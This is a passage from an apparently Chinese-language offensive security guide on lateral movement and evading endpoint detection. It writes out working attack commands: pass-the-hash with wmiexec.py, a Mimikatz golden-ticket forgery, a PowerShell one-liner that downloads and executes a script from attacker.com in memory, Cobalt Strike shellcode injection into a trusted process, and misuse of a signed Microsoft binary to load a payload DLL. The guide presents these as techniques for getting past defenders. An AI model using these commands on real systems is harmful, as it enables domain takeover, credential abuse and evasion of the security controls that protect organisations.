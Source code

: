   
实现无密码登录：
```
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf0581e8872775d0 mydomain/user@192.168.1.10
```

  
。  
  
- • **利用票据传递（PtT）**  
：通过Mimikatz获取黄金票据（Golden Ticket），
```
kerberos::golden /domain:example.com /sid:S-1-5-21-xxxx /target:dc01.example.com /service:krbtgt /rc4:NTLMHash /user:admin /ptt
```

  
，直接注入内存实现域内认证。  
  
注意事项：哈希传递需确保目标主机开启Admin$共享，且攻击机与目标主机存在信任关系。在工作组环境中，该方法效果有限，需结合其他手段。  
## 三、终端防护软件拦截：规避EDR与杀毒软件的查杀  
  
现代企业终端普遍安装EDR工具，传统的恶意文件执行、注册表修改等操作会被实时拦截。某企业部署的某公司EDR，能在3秒内识别并隔离未签名的远控木马。  
  
**突破技巧**  
：  
- • **无文件攻击技术**  
：利用PowerShell执行内存加载，
```
powershell -exec bypass -c &#34;IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')&#34;
```

  
，避免在磁盘留下恶意文件。  
  
- • **进程注入**  
：选择系统信任的进程（如svchost.exe）进行注入，使用Cobalt Strike的
```
shinject
```

  
命令：
```
shinject 1234 /root/beacon.bin
```

  
，其中1234为目标进程PID。  
  
- • **白名单程序滥用**  
：利用微软签名的sdiagnhost.exe执行命令，
```
sdiagnhost.exe -Embedding C:\temp\payload.dll
```

  
，绕过应用程序控制策略。  
  